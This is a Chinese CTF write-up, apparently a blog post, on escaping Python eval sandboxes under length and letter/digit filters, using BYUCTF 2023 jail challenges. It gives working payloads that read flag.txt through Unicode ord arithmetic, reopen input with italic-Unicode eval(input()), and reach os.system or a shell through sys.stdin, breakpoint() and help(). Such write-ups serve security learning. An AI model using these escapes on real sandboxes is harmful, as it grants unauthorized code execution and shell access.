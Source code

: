 ```yaml
---
title: pyjail bypass-05 绕过长度限制
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```




## 绕过长度限制
BYUCTF_2023 中的几道 jail 题对 payload 的长度作了限制
```py
eval((__import__("re").sub(r'[a-z0-9]','',input("code > ").lower()))[:130])
```

题目限制不能出现数字字母，构造的目标是调用 open 函数进行读取

```py
print(open(bytes([102,108,97,103,46,116,120,116])).read())
```
函数名比较好绕过，直接使用 unicode。数字也可以使用 ord 来获取然后进行相减。我这里选择的是 chr(333).
```py
# f = 102 = 333-231 = ord('ō')-ord('ç')
# a = 108 = 333-225 = ord('ō')-ord('á')
# l = 97 = 333-236 = ord('ō')-ord('ì')
# g = 103 = 333-230 = ord('ō')-ord('æ')
# . = 46 = 333-287 = ord('ō')-ord('ğ')
# t = 116 = 333-217 = ord('ō')-ord('Ù')
# x = 120 = = 333-213 = ord('ō')-ord('Õ')

print(open(bytes([ord('ō')-ord('ç'),ord('ō')-ord('á'),ord('ō')-ord('ì'),ord('ō')-ord('æ'),ord('ō')-ord('ğ'),ord('ō')-ord('Ù'),ord('ō')-ord('Õ'),ord('ō')-ord('Ù')])).read())
```
但这样的话其实长度超出了限制。而题目的 eval 表示不支持分号 ;，这种情况下，我们可以添加一个 exec。然后将 ord 以及不变的 `a('ō')` 进行替换。这样就可以构造一个满足条件的 payload
```py
exec("a=ord;b=a('ō');print(open(bytes([b-a('ç'),b-a('á'),b-a('ì'),b-a('æ'),b-a('ğ'),b-a('Ù'),b-a('Õ'),b-a('Ù')])).read())")
```
但其实尝试之后发现这个 payload 会报错，原因在于其中的某些 unicode 字符遇到 lower() 时会发生变化，避免 lower 产生干扰，可以在选取 unicode 时选择 ord 值更大的字符。例如 chr(4434)

当然，可以直接使用 input 函数来绕过长度限制。

### 打开 input 输入
如果沙箱内执行的内容是通过 input 进行传入的话（不是 web 传参），我们其实可以传入一个 input 打开一个新的输入流，然后再输入最终的 payload，这样就可以绕过所有的防护。

以 BYUCTF2023 jail a-z0-9 为例：
```py
eval((__import__("re").sub(r'[a-z0-9]','',input("code > ").lower()))[:130])
```
即使限制了字母数字以及长度，我们可以直接传入下面的 payload（注意是 unicode）
```py
𝘦𝘷𝘢𝘭(𝘪𝘯𝘱𝘶𝘵())
```
这段 payload 打开 input 输入后，我们再输入最终的 payload 就可以正常执行。
```py
__import__('os').system('whoami')
```

打开输入流需要依赖 input 函数，no builtins 的环境中或者题目需要以 http 请求的方式进行输入时，这种方法就无法使用了。

下面是一些打开输入流的方式:
#### sys.stdin.read()
注意输入完毕之后按 ctrl+d 结束输入
```py
>>> eval(sys.stdin.read())
__import__('os').system('whoami')
kali
0
>>>
```
#### sys.stdin.readline()
```py
>>> eval(sys.stdin.readline())
__import__('os').system('whoami')
```


#### sys.stdin.readlines()
```py
>>> eval(sys.stdin.readlines()[0])
__import__('os').system('whoami')
```

在 python2 中，在python 2中，input 函数从标准输入接收输入之后会自动 eval 求值。因此无需在前面加上 eval。但 raw_input 不会自动 eval。

### breakpoint 函数
pdb 模块定义了一个交互式源代码调试器，用于 Python 程序。它支持在源码行间设置（有条件的）断点和单步执行，检视堆栈帧，列出源码列表，以及在任何堆栈帧的上下文中运行任意 Python 代码。它还支持事后调试，可以在程序控制下调用。

在输入 breakpoint() 后可以代开 Pdb 代码调试器，在其中就可以执行任意 python 代码
```py
>>> 𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()
--Return--
> <stdin>(1)<module>()->None
(Pdb) __import__('os').system('ls')
a-z0-9.py  exp2.py  exp.py  flag.txt
0
(Pdb) __import__('os').system('sh')
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
```

### help 函数
help 函数可以打开帮助文档. 索引到 os 模块之后可以打开 sh

当我们输入 help 时，注意要进行 unicode 编码，help 函数会打开帮助
```py
𝘩𝘦𝘭𝘱()
```
然后输入 os,此时会进入 os 的帮助文档。
```py
help> os
```
然后在输入 `!sh` 就可以拿到 /bin/sh, 输入 `!bash` 则可以拿到 /bin/bash
```py
help> os
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
$ 
```

## 参考资料
- [Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
- [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
- [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
- [python沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
- [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
- [[PyJail] python沙箱逃逸探究·上（HNCTF题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
- [[PyJail] python沙箱逃逸探究·中（HNCTF题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
- [[PyJail] python沙箱逃逸探究·下（HNCTF题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
- [audited2](https://ctftime.org/writeup/31883)
- [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
- [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
- [Python沙箱逃逸的n种姿势](https://ctftime.org/writeup/28286)
- [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)